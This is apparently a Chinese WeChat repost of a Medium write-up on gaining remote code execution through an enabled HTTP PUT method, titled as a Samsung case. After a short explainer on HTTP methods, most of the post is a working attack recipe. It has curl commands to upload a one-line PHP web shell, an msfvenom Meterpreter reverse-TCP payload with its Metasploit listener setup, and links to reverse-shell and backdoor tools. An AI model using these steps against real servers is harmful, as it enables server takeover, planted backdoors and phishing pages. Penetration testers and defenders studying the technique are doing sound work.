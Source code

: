 #  利用 PUT 方法导致三星远程代码执行 (RCE)   
 Ots安全   2024-04-26 10:47  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
**什么是 HTTP 方法？**  
  
HTTP 方法是定义客户端想要对由 URI（统一资源标识符）标识的指定资源执行的操作的动词。它们在 HTTP（超文本传输协议）中使用，以促进客户端（例如 Web 浏览器或移动应用程序）与服务器之间的通信。每种方法指定要对资源执行的不同类型的操作。  
  
**常见 HTTP 方法解释**  
1. GET：使用提供的 URI 从服务器检索信息；应该只检索数据而不改变它。  
  
1. HEAD：与 GET 类似，但仅传输状态行和标头部分，不包括响应正文。  
  
1. POST：向服务器发送数据，例如表单提交或文件上传，通常用于创建或更新资源  
  
1. PUT：用提供的内容替换目标资源的所有当前表示。  
  
1. DELETE：删除 URI 标识的目标资源的所有当前表示。  
  
1. TRACE：沿着到目标资源的路径执行消息环回测试，允许客户端查看中间服务器对请求进行了哪些更改或添加。  
  
1. 选项：描述可用于目标资源的通信选项。  
  
**# 现在让我们破解**  
  
**什么是 HTTP PUT 方法**  
  
HTTP PUT 方法通常用于上传保存在服务器上用户提供的 URL 上的数据。如果启用，攻击者可能能够将任意且可能恶意的内容放入应用程序中。  
  
根据服务器的配置，这可能会导致其他用户受到损害（通过上传客户端可执行脚本）、服务器受到损害（通过上传服务器可执行代码）或其他攻击。  
  
**是否启用 PUT 方法测试？**  
  
注意：这是一个如何测试 put 方法是否启用的示例，http://testhtml5.vulnweb.com/是作为安全培训实验室而制作的。  
  
curl您可以通过向特定 URL 发送 PUT 请求并观察响应来测试服务器上是否启用了 PUT 方法。  
  
```
curl -i -s -k -X OPTIONS 'http://testhtml5.vulnweb.com/'
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taedn38pjy2DDSDpXRYcowIGibcHHXGJTQaytOsmbZ6tE8Ph6hJZ2bMrB6kibLYNyicBC2dR7KqOhaCZw/640?wx_fmt=other&from=appmsg "")  
  
2. 通过发送 OPTIONS 方法使用 BurpSuit  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taedn38pjy2DDSDpXRYcowIG9TVPAG3icN17D6zckzTEBZl01naKtSTFpTFUHny1s4q2w6h7Hgx7wIQ/640?wx_fmt=other&from=appmsg "")  
  
检查响应中的“允许”方法：如果 PUT 方法为 ，则尝试文件上传。  
  
如果 PUT 方法启用，则响应标头示例：  
  
```
Allow: HEAD, OPTIONS, GET , PUT
```  
  
  
这是响应如何允许标头结果的另一个示例：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taedn38pjy2DDSDpXRYcowIGgbge1sO8EwC5KyVAAiaATHwwgC72oEHCbuichsfKchqic5ibHPo1G04z8Q/640?wx_fmt=other&from=appmsg "")  
  
**漏洞利用步骤**  
  
1.上传 POC.txt 文件以演示文件上传功能。  
  
```
curl -X PUT "https://site.com/POC.txt"  -H "Content-Type: text/plain" -d "{POC Mohanad}"
```  
  
  
导航到 https://site.com/POC.txt，您应该有这样的响应  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taedn38pjy2DDSDpXRYcowIGGTXl83VS4hbufKzTDzVvFBiaZuoTS3o8ypkWl0sMdVFdexntwszARwA/640?wx_fmt=other&from=appmsg "")  
  
2. 远程代码执行 （RCE）  
  
```
curl -X PUT -d "<?php echo system (($_REQUEST['cmd'])); ?>" http://site.com/shell.php
```  
  
  
<?php echo system (($_REQUEST['cmd'])); ?>   
PHP 代码可在 Linux 和 Windows 服务器上运行。  
  
```
http://site.com/shell.php?cmd=[Your Command Here]
```  
  
  
请记住，如果服务器不支持指定 URL 的 PUT 方法，您可能会收到 405 方法不允许状态代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taedn38pjy2DDSDpXRYcowIGqRXP8uTstV3YEc4so5REibEKz4M0FbRSgNicmxwvibkHjEV0AtHTA6oxg/640?wx_fmt=other&from=appmsg "")  
  
注意：图片取自 https://www.arridae.com/blogs/HTTP-PUT-method.php  
  
**使用 Metasploit**  
  
Metasploit 框架是开发、测试和执行漏洞利用的著名平台。作为一种开源工具，它促进了针对易受攻击系统的一系列漏洞利用。具体来说，在框架中，存在一个模块，能够通过利用 PUT 和 DELETE HTTP 请求来上传和删除 Web 内容，从而利用配置错误的 Web 服务器。用户可以将 ACTION 参数设置为 PUT 或 DELETE，其中 PUT 是默认选项。  
  
1.Create PHP Payload 创建 PHP 有效负载  
  
```
msfvenom -p php/meterpreter/reverse_tcp lhost=[Listening IP] lport=[Listening PORT] -f raw > meterpreter.php
```  
  
  
修改文件以确保脚本包含正确的 PHP 打开和结束标记.  
  
2. 接下来，我们将在 Metasploit 中设置侦听器，以使用以下命令拦截反向 shell：  
  
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
// Be sure to set the payload here otherwise you might get errors
set lhost [Listening IP]
set lport [Listening PORT]
run
```  
  
  
3. 使用 curl 命令上传文件  
  
```
curl -i -X PUT -T meterpreter.php http://site.com/meterpreter.php
```  
  
  
4. 有时您需要导航到 http://site.com/meterpreter.php 以便 Meterpreter 会话启动。  
  
  
**其他想法**  
  
1.您可以从 GitHub 使用 Shell，示例：  
  
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php?source=post_page-----a1077829d4c5--------------------------------  
  
2.您可以使用非常好的工具称为weevely，您可以创建一个PHP Shell文件，设置密码并连接到主机。  
  
https://www.kali.org/tools/weevely/?source=post_page-----a1077829d4c5--------------------------------  
  
利用 weevely ： https://infosecwriteups.com/how-to-generate-a-php-backdoor-using-weevely-5c1dda909b79  
  
**Impact**  
  
在没有适当安全措施的情况下启用 PUT 方法会为潜在的灾难性后果打开闸门。通过允许任何人（包括恶意行为者）将文件上传到服务器，该漏洞使系统面临多种风险，每种风险都会产生严重影响。  
  
1.服务器入侵：攻击者可以将 shell 上传到服务器上，授予他们对计算机的完全访问和控制权，允许他们执行命令、操纵数据，甚至提升权限。  
  
2.网络钓鱼攻击：借助上传文件的能力，攻击者可以制作模仿合法网站的虚假登录页面。毫无戒心的用户可能会输入他们的凭据，在不知不觉中将其交给攻击者，从而导致帐户泄露并可能被进一步利用。  
  
  
原文翻译自：  
  
https://medium.com/@mohanad.hussam23/exploiting-put-method-led-to-remote-code-execution-rce-on-samsung-a1077829d4c5  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
